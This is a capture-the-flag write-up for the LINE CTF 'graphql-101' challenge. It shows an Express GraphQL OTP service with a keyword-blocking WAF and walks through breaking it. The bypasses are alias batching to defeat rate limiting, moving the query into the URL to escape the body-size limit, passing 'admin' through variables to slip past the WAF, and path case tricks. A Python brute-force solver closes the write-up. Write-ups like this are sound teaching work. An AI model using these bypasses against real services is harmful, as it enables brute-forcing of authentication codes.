






# graphql-101

## Source Code

<details><summary>file tree</summary>

```console
$ unzip -t graphql-101_4122279cf813aafd6043031acf1b77c0.zip
Archive:  graphql-101_4122279cf813aafd6043031acf1b77c0.zip
    testing: source/                  OK
    testing: source/index.js          OK
    testing: source/package.json      OK
    testing: source/views/            OK
    testing: source/views/index.html   OK
    testing: source/waf.js            OK
    testing: docker-compose.yml       OK
    testing: Dockerfile               OK
No errors detected in compressed data of graphql-101_4122279cf813aafd6043031acf1b77c0.zip.
```

</details>

<details><summary>source/package.json</summary>

```json
{
  "name": "graphql-101",
  "version": "1.0.0",
  "description": "",
  "main": "index.js",
  "scripts": {
    "test": "echo \"Error: no test specified\" && exit 1",
    "start:dev": "node --watch index.js",
    "start:prod": "NODE_ENV=production node index.js"
  },
  "keywords": [],
  "author": "",
  "license": "ISC",
  "dependencies": {
    "express": "^4.18.2",
    "express-graphql": "^0.12.0",
    "express-rate-limit": "^6.7.0",
    "graphql": "^16.6.0"
  }
}
```

</details>

<details><summary>source/index.js</summary>

```js
const express = require("express")
const { graphqlHTTP } = require("express-graphql")
const { buildSchema } = require("graphql")
const path = require("path");
const crypto = require('crypto');

const STRENGTH_CHALLENGE = 999;
const NUM_CHALLENGE = 40;
const ERROR_MSG = "Wrong !!!";
const CORRECT_MSG = "OK !!!";

// Currently support admin only
var otps = Object.create(null);
otps["admin"] = Object.create(null);
function genOtp(ip, force = false) {
  if (force || !otps["admin"][ip]) {
    function intToString(v) {
      let s = v.toString();
      while (s.length !== STRENGTH_CHALLENGE.toString().length) s = '0' + s;
      return s;
    }
    const otp = [];
    for (let i = 0; i < NUM_CHALLENGE; ++i) 
      otp.push(
        intToString(crypto.randomInt(0, STRENGTH_CHALLENGE))
      );
    otps["admin"][ip] = otp;
  }
}

const rateLimiter = require('express-rate-limit')({
  windowMs: 30 * 60 * 1000,
  max: 5,
  standardHeaders: true,
  legacyHeaders: false,
  onLimitReached: async (req) => genOtp(req.ip, true)
});

function checkOtp(username, ip, idx, otp) {
  if (!otps[username]) return false;
  if (!otps[username][ip]) return false;
  return otps[username][ip][idx] === otp;
}

// Construct a schema, using GraphQL schema language
const schema = buildSchema(`
  type Query {
    otp(u: String!, i: Int!, otp: String!): String!
  }
`);

// The root provides a resolver function for each API endpoint
const root = {
  otp: ({ u, i, otp }, req) => {
    if (i >= NUM_CHALLENGE || i < 0) return ERROR_MSG;
    if (!checkOtp(u, req.ip, i, otp)) return ERROR_MSG;
    rateLimiter.resetKey(req.ip);
    otps[u][req.ip][i] = 1;
    return CORRECT_MSG;
  },
}

const app = express();

// For monitor cheaters :)
app.use((req, res, next) => {
  console.log(`[ ${new Date()} ] - [ ${req.ip} ] - [ ${req.method} ] - [ ${req.url} ]`);
  next();
})

// Secure WAF !!!!
const { isDangerousPayload, isDangerousValue } = require('./waf');
app.use((req, res, next) => {
  if (isDangerousValue(req.url)) return res.send(ERROR_MSG);
  if (isDangerousPayload(req.query)) return res.send(ERROR_MSG);
  next();
});

app.use((req, res, next) => { genOtp(req.ip); next() });
app.use(require('body-parser').json({ limit: '128b' }));
app.use(
  "/graphql",
  rateLimiter,
  graphqlHTTP({
    schema: schema,
    rootValue: root,
  })
);

app.get('/', (req, res) => {
  res.sendFile(path.join(__dirname, "views", "index.html"));
});

app.get('/admin', (req, res) => {
  let sum = 0;
  for (let i = 0; i < NUM_CHALLENGE; ++i)
    sum += otps["admin"][req.ip][i];
  res.send((sum === NUM_CHALLENGE) ? process.env.FLAG : ERROR_MSG);
});

app.listen(4000)
console.log("Running a GraphQL API server at http://localhost:4000/graphql")
```

</details>

<details><summary>source/waf.js</summary>

```js
function isDangerousValue(s) {
  return s.includes('admin') || s.includes('\\'); // Linux does not need to support "\"
}

/** Secured WAF for admin on Linux
*/
function isDangerousPayload(obj) {
  if (!obj) return false;
  const keys = Object.keys(obj);
  for (let i = 0; i < keys.length; ++i) {
    const key = keys[i];
    if (isDangerousValue(key)) return true;
    if (typeof obj[key] === 'object') {
      if (isDangerousPayload(obj[key])) return true;
    } else {
      const val = obj[key].toString();
      if (isDangerousValue(val)) return true;
    }
  }
  return false;
}

module.exports = {
  isDangerousValue,
  isDangerousPayload,
}
```

</details>

## Flag

LINECTF{db37c207abbc5f2863be4667129f70e0}

## Objective



Guessing a randomly generated number (OTP) between 000 and 998 (OTP check), repeating it for 40 attempts, accessing /admin, we can get the flag.
The username should be named as `admin` for the flag.

## Initial Analysis

Click the `Check otp 0` button, request and response is the following:



The OTP is stored on the server side as an array of length 40 in an `opts["admin"][ip]` object, and this OTP array differs each client IP address.

```js
// source/indes.js

const STRENGTH_CHALLENGE = 999;
const NUM_CHALLENGE = 40;
const ERROR_MSG = "Wrong !!!";
const CORRECT_MSG = "OK !!!";

// Currently support admin only
var otps = Object.create(null);
otps["admin"] = Object.create(null);
function genOtp(ip, force = false) {
  if (force || !otps["admin"][ip]) {
    function intToString(v) {
      let s = v.toString();
      while (s.length !== STRENGTH_CHALLENGE.toString().length) s = "0" + s;
      return s;
    }
    const otp = [];
    for (let i = 0; i < NUM_CHALLENGE; ++i)
      otp.push(intToString(crypto.randomInt(0, STRENGTH_CHALLENGE)));
    otps["admin"][ip] = otp;
  }
}
```

### Request rate limit per client IP address

The request rate to the /graphql endpoint is restricted by the [express-rate-limit](https://github.com/express-rate-limit/express-rate-limit) npm package.
This OTP check is limited per client IP address, allowing only 5 requests to be sent within a 30-minute period for each OTP check.

```js
// source/index.js

const rateLimiter = require('express-rate-limit')({
  windowMs: 30 * 60 * 1000,
  max: 5,
  standardHeaders: true,
  legacyHeaders: false,
  onLimitReached: async (req) => genOtp(req.ip, true)
});

...

app.use(
  "/graphql",
  rateLimiter,
  graphqlHTTP({
    schema: schema,
    rootValue: root,
  })
);
```

However, once the OTP check is successfully completed, the rate limit is reset, and the same rate limit applies for the next OTP check:

```js
// source/index.js

const root = {
  otp: ({ u, i, otp }, req) => {
    if (i >= NUM_CHALLENGE || i < 0) return ERROR_MSG;
    if (!checkOtp(u, req.ip, i, otp)) return ERROR_MSG;
    rateLimiter.resetKey(req.ip);  // reset in here
    otps[u][req.ip][i] = 1;
    return CORRECT_MSG;
  },
}
```

Therefore, by successfully completing the OTP check within 5 attempts and repeating this process 40 times, we can obtain the flag.

The rate limit can be bypassed by executing multiple GraphQL queries in a single HTTP request, exploiting [Batching Attach](https://lab.wallarm.com/graphql-batching-attack/) using [GraphQL Aliases](https://graphql.org/learn/queries/#aliases).

GraphQL aliases query example:

```graphql
query {
  a: otp(u: "admin", i: 0, otp: "001")
  b: otp(u: "admin", i: 0, otp: "002")
}
```

Request and response example:



However, due to restriction on the request body length, we can not send many queries in a single HTTP request.
Let's move on to the next point regarding this.

### Request body length limit

A HTTP request body sent to the /graphql endpoint is in JSON format, structured like `{"query":"query {otp(...)}", "variables": {}}`.
The length of the request body is restricted, allowing for a maximum of 128 bytes.

```js
// source/index.js

app.use(require('body-parser').json({ limit: '128b' }));
```

The application uses [express-graphql v0.12.0](https://github.com/graphql/express-graphql/tree/v0.12.0) as GraphQL server.
According to its documentation, GraphQL query can be used not only in the request body but also in the HTTP query string.

> GraphQL will first look for each parameter in the query string of a URL:
>
> /graphql?query=query+getUser($id:ID){user(id:$id){name}}&variables={"id":"4"}

Therefore, by specifying the GraphQL query in query string instead of request body, it is possible to bypass the limit.

For example, username is `a`:



### WAF `admin` string restriction

Since only the username `admin` is supported, so we need to specify `u:"admin"` as an argument in the GraphQL query.
However, due to the restriction by the WAF string `admin` implemented in source/waf.js, this will return a response of "Wrong !!!" without the RateLimit header.

```js
// source/waf.js

function isDangerousValue(s) {
  return s.includes('admin') || s.includes('\\'); // Linux does not need to support "\"
}

/** Secured WAF for admin on Linux
*/
function isDangerousPayload(obj) {
  if (!obj) return false;
  const keys = Object.keys(obj);
  for (let i = 0; i < keys.length; ++i) {
    const key = keys[i];
    if (isDangerousValue(key)) return true;
    if (typeof obj[key] === 'object') {
      if (isDangerousPayload(obj[key])) return true;
    } else {
      const val = obj[key].toString();
      if (isDangerousValue(val)) return true;
    }
  }
  return false;
}
```

```js
// source/index.js

app.use((req, res, next) => {
  if (isDangerousValue(req.url)) return res.send(ERROR_MSG);
  if (isDangerousPayload(req.query)) return res.send(ERROR_MSG);
  next();
});
```


GraphQL allows the use of [variables](https://graphql.org/learn/queries/#variables).
Fortunately, with express-graphql, we can define the GraphQL variables in request body and define the GraphQL query in query string.
Therefore, to bypass WAF, we can execute the following HTTP request:



The below is example request that incorporates the ideas we have so far:



Finally, to get the flag, we need to access `/admin` instead of the `/graphql` GraphQL endpoint, and this endpoint is also affected by the WAF.
However, we can bypass it by `/Admin`.

All we have to do is to script to automate.

## Solver

```python
import string
import requests
import itertools

requests.packages.urllib3.disable_warnings()
s = requests.Session()
# s.proxies = {"http": "http://127.0.0.1:8080"}

# BASE_URL = "http://localhost:7654"
BASE_URL = "http://34.84.220.22:7654"


def generate_strings():
    for size in itertools.count(1):
        for s in itertools.product(string.ascii_letters, repeat=size):
            yield "".join(s)


alias_names = [s for s in itertools.islice(generate_strings(), 1000)]
# generate ["a", "b", ... , "aa", "ab", ...]


def main():
    offset = 250
    for i in range(40):
        for n in range(0, 999, offset):

            query = ""
            query += "query myQuery($u:String!){"

            for j, otp in enumerate(range(n, min(n + offset, 999))):
                query += f'{alias_names[j]}:otp(u:$u,i:{i},otp:"{otp:03}")'

            query += "}"

            resp = s.post(
                f"{BASE_URL}/graphql?query={query}",
                json={"variables": {"u": "admin"}},
            )

            if "OK !!!" in resp.text:
                break

    resp = s.get(f"{BASE_URL}/Admin")
    print(resp.text)


if __name__ == "__main__":
    main()
```

Result:

```console
$ python3 solver.py
LINECTF{db37c207abbc5f2863be4667129f70e0}
```
